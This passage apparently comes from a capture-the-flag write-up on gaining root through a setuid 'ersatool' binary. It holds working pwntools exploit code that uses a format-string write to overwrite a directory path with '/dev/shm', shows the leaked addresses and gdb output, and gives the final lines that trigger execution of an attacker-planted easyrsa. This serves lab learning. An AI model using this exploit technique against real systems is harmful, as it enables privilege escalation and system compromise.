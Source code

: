     p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))
    p.sendline("%16$100p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+1))
    p.sendline("%16$101p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+2))
    p.sendline("%16$118p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+3))
    p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+4))
    p.sendline("%16$115p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+5))
    p.sendline("%16$104p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+6))
    p.sendline("%16$109p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+7))



In fact, that works. But cleaner would be to make a loop:



    for i,c in enumerate("/dev/shm"):
        p.sendline(f"%16${ord(c)}p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+i)) 
        p.recvuntil(b"\n\n")



The `recvuntil` just clears out all the junk responses I don't need
(otherwise all the cached incoming data will dump when `interactive` is
called). Running it presents a prompt:



    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 547061
    [+] Leaked EXT address:          0x000055713e5aa15f
    [+] Calculated ERSA_DIR address: 0x000055713e5aa0f0
    [*] Switching to interactive mode
    print->CN=$



And `gdb` shows the path overwritten:



    gdb-peda$ x/s &ERSA_DIR
    0x55713e5aa0f0 <ERSA_DIR>:      "/dev/shm"



#### Finish Script

Now that I've overwritten the folder, I'll just need to call `create`
with any input to get the program to call `/dev/shm/easyrsa`. That's a
few more lines:



    p.sendline()             # return to main menu
    p.recvuntil(b"#")        # get prompt
    p.sendline(b"create")    # enter create menu
    p.recvuntil(b"CN=")      # get prompt
    p.sendline(b"0xdf")      # send anything
    p.recv(4096)             # recv all sent error messages 



Interestingly, if I don't have a final `p.recv` at the end, it will just
exit before the `create` method runs, and I don't get execution. Just
waiting for a response is enough to keep the program open. I removed the
`interactive` call.
